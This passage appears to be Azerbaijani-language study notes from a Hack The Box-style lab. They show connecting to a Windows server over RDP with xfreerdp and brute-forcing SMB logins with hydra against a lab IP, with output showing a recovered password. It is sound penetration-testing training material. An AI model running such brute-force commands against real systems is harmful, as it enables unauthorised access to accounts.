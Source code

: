 Linux, RDP protokolu istifadə edərək istənilən serverlə əlaqə qurmaq üçün müxtəlif klientlər təklif edir. Bunlara **Remmina**, **xfreerdp** və bir çox başqaları daxildir. Məqsədlərimiz üçün **xfreerdp** ilə işləyəcəyik.

### xFreeRDP

```bash
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

```bash
nijatmansimov@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password
<SNIP>

New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y
```

<img width="1019" height="795" alt="image" src="https://github.com/user-attachments/assets/bc3db32c-53d1-46ec-ace4-46dce283e2b3" />

## SMB

**Server Message Block** (**SMB**) yerli şəbəkələrdə bir klient və server arasında məlumat ötürülməsinə cavabdeh olan bir protokoldur. O, Windows şəbəkələrində fayl və qovluq paylaşımı və çap xidmətlərini tətbiq etmək üçün istifadə olunur. SMB tez-tez bir fayl sistemi kimi qeyd olunur, lakin o, fayl sistemi deyil. SMB yerli şəbəkələrdə diskləri təmin etmək üçün Unix və Linux üçün **NFS** ilə müqayisə edilə bilər.

SMB həmçinin **Common Internet File System** (**CIFS**) kimi tanınır. Bu, SMB protokolunun bir hissəsidir və Windows, Linux və ya macOS kimi çoxsaylı platformaların universal uzaqdan qoşulmasını təmin edir. Bundan əlavə, biz yuxarıda qeyd olunan funksiyaların açıq mənbə tətbiqi olan **Samba**-ya tez-tez rast gələcəyik. SMB üçün də, fərqli şifrələrlə birlikdə fərqli istifadəçi adlarını yoxlamaq üçün yenidən **hydra**-nı istifadə edə bilərik.

### Hydra - SMB

```bash
nijatmansimov@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```
